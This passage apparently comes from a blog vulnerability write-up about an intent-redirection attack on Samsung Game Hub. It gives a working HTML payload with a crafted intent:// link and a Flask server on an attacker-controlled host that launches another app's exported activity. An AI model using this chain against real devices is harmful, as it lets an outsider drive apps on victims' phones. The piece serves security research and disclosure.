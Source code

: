 Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*JqY1tLzFbUiO8cXxtFbwnA.png)

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*PMqkSVevcjIwCm45NpaJDg.png)

so now we need to reach this `a` this will load `intent://` and open an exported activities

Payload Time

Get Happy Jester’s stories in your inbox
----------------------------------------

Join Medium for free to get updates from this writer.

so here payload open `Game Hub` then redirect to attacker.com and by using JavaScript and flask reroute to send new `intent://` to target application

```
<!doctype html>
<html lang="en">
<head>
  <meta charset="utf-8"><title>Launch</title>
</head>
<body>
  <h1>
    <a href="intent://com.samsung.android.game.gamehome/gmp?url=https%3A%2F%2Fus.mcsvc.samsung.com%40attacker.zerodoridlabs.com%2F%3Flocation%3Dlaunch#Intent;scheme=gamelauncher;action=android.intent.action.VIEW;component=com.samsung.android.game.gamehome/com.samsung.android.game.gamehome.app.MainActivity;end">
      Launch via GameHub
    </a>
  </h1>

  
  <script>
    const params = new URLSearchParams(window.location.search);
    const loc    = (params.get('location') || '').toLowerCase();
    if (loc === 'launch') window.location.replace('/launch');
  </script>
</body>
</html>

```

```
from pathlib import Path
from flask import Flask, redirect

BASE = Path(__file__).resolve().parent
app = Flask(__name__, static_folder=str(BASE), static_url_path="")

@app.route("/")
def root():
    return app.send_static_file("index.html")  

@app.route("/launch")
def launch_share():
    return redirect("intent:#Intent;action=android.intent.action.MAIN;category=android.intent.category.LAUNCHER;component=com.withsecure.dz/com.WithSecure.dz.activities.MainActivity;end", code=302)

if __name__ == "__main__":
    ssl_context = ("/etc/letsencrypt/live/zerodoridlabs.com/fullchain.pem",
                   "/etc/letsencrypt/live/zerodoridlabs.com/privkey.pem")
    app.run(host="0.0.0.0", port=443, debug=False, ssl_context=ssl_context)
```
